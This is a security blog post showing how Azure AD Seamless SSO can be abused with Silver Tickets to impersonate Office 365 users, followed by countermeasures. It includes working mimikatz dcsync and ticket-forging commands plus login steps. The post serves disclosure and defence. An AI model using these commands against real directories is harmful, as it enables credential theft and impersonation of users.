 ```yaml
---
ref: impersonating
title: Impersonating Office 365 Users With Mimikatz
date: 2017-01-15T19:35:43+00:00
layout: post
lang: en
permalink: /en/impersonating-office-365-users-mimikatz/
tags:
    - 'Active Directory'
    - 'Microsoft Azure'
    - Mimikatz
    - 'Office 365'
    - Security
---
```


Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://technet.microsoft.com/en-us/library/hh831502(v=ws.11).aspx), which&nbsp;makes it an ideal solution for&nbsp;SMEs. Here is&nbsp;a high-level diagram of&nbsp;this functionality:

![](https://docs.microsoft.com/en-us/azure/active-directory/connect/media/active-directory-aadconnect-sso/sso2.png) As we can see from&nbsp;the&nbsp;diagram above, Azure AD exposes a [publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever you have Kerberos-based authentication, it can be attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this attack can only be performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the fact that&nbsp;with this new SSO feature, **Silver Tickets could be used from&nbsp;the&nbsp;entire internet**. Let’s give it a&nbsp;try then!

<!--more-->
## The&nbsp;Nasty Stuff

To&nbsp;test this technique, we need to&nbsp;retrieve some information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the [AZUREADSSOACC](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This value can be retrieved from AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):
```bat
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
```
    
My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the same job:
    
```powershell
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
-Server lon-dc1.contoso.local
```
    
Both of these commands need *Domain Admins* permissions.

2. Name of the AD domain, e.g. *contoso.local*.
3. AAD logon name of the user we want to impersonate, e.g. elrond@contoso.com. This is typically either his *userPrincipalName* or *mail* attribute from the on-prem AD.
4. SID of the user we want to impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this information we can now create and use the Silver Ticket on any Windows computer connected to the internet. It does not even matter whether it is joined to a domain or a workgroup:

1. Create the Silver Ticket and inject it into Kerberos cache:
```bat
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
```
2. Launch *Mozilla Firefox*.
3. Go to <about:config> and set the [network.negotiate-auth.trusted-uris](https://developer.mozilla.org/en-US/docs/Mozilla/Integrated_authentication) preference to [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to any web application that is integrated with our AAD domain. We will use [Office 365](https://portal.office.com), which is the most commonly used one.
5. Once at the logon screen, fill in the user name, while leaving the password field empty. Then press TAB or ENTER.  
    ![](../../assets/images/aad_sso1.png)
6. That’s it, we’re in!![](../../assets/images/aad_sso2.png)
7. To log in as another user, run the command below and repeat steps 1-6.
```bat
klist purge
```

It is also worth noting that the password of the *AZUREADSSOACC* account never changes, so the stolen hash/key will work forever. It could therefore be misused by highly privileged employees to retain access to the IT environment after leaving the company. Dealing with such situations is a much broader problem, which is aptly depicted by the following old Narnian saying:

![Once a Domain Admin, always a Domain Admin](../../assets/images/narnia.png)

## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this technique would not be very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The SSO feature is in Preview and has to be explicitly enabled by an AD admin. Just a handful of companies probably use it at the time of writing this article and enterprises will quite surely stick to their proven ADFS deployments even after this feature reaches GA.
- The hash/key of the *AZUREADSSOACC* account can only be retrieved by Domain Admins from DCs by default. But if an attacker had such highly privileged access to an Active Directory domain, he/she would be able to do some way nastier stuff than just replicating a single hash.
- The password of the *AZUREADSSOACC* account is randomly generated during the deployment of *Azure AD Connect*. It would therefore be impossible to guess this password.

As&nbsp;you can see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to trusted individuals and keep the number of members of the *Domain Admins* group (and other privileged groups) as low as possible.
- Protect backups of Domain Controllers, so no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from them.
- Enable and enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for users authenticating from external IP addresses. It is very straightforward and effective against many kinds of attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to detect malicious replication and other threats to your AD infrastructure.  
- Force a password change on the *AZUREADSSOACC* account by <del>re-deploying Azure AD Connect SSO</del> [running the Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after a highly privileged employee leaves the company and/or on a regular basis. This should be done together with resetting the password of *krbtgt* and other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some years, it is&nbsp;now probably the&nbsp;first time it can be used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it even&nbsp;more potent. On the&nbsp;other hand, it would be quite hard to  perform this technique in&nbsp;a real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can therefore be considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
